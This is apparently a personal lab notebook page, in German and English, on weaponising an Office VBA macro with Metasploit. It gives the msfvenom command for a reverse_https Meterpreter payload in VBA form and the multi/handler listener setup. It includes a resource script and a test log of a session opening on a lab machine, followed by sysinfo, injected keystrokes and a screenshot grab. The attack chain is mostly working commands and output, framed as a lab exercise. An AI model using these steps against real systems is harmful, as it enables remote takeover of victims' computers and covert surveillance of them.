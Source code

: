 ```yaml
---
title: VBA Makro mit Metasploit
---
```






[[Quelle](https://www.hackingarticles.in/multiple-ways-to-exploit-windows-systems-using-macros/)]

Let’s move on to a rather basic approach. This approach is quite detectable by almost all the Antivirus tools as the signature of the Metasploit Payload is quite common. Still to understand the basic attack and to perform in a lab environment, we will be using the Metasploit for exploiting our target via Marcos.  

To get started, we need to craft a payload. We will be using MSFvenom for crafting the payload. We used the reverse_http payload for this demonstration. We stated the Local IP Address of the Attacker Machine i.e., Kali Linux. We also need to provide a Local port for the session to get generated on. After generating the payload with the proper configuration for the vba payload, we copy the vba payload content and then move onto to the target machine.

```
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.178.81 lport=80 -f vba
```

![img](fig/14.png)





```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 192.168.178.81
set lport 80
exploit
```



![img](fig/15-20210530160103516.png)



# Test 30.05.2021

Excel Makro anlegen siehe TODO

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 192.168.178.81
lhost => 192.168.178.81
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.178.81:80
[*] https://192.168.178.81:80 handling request from 192.168.178.82; (UUID: otm8nz65) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (192.168.178.81:80 -> 192.168.178.82:62085) at 2021-05-30 10:07:44 -0400

meterpreter > help
```

Resource Script dafür erzeugen

```
echo "use exploit/multi/handler\nset payload windows/meterpreter/reverse_https\nset lhost 192.168.178.81\nset lport 80\nexploit\n" > msf_macro.rc
```

```bash
$ msfconsole -r msf_macro.rc
```

![image-20210530161514714](fig/image-20210530161514714.png)

**Systeminformation** anzeigen:

```
meterpreter > sysinfo 
Computer        : DESKTOP-KB6QKG7
OS              : Windows 10 (10.0 Build 19043).
Architecture    : x64
System Language : de_DE
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Text aufs Opfersystem schicken (simuliert **Tastendrücke**):

```
meterpreter > keyboard_send "you have been hacked!"
[*] Done
```

Einen **Screenshot** vom Opfersystem erstellen:

```
meterpreter > screenshot
Screenshot saved to: /root/QMnwJkYX.jpeg
```

In einer anderen shell:

```bash
$ python3 -m http.server 8080
```

Im Browser (Kali) öffnen: `http://localhost:8080/QMnwJkYX.jpeg`

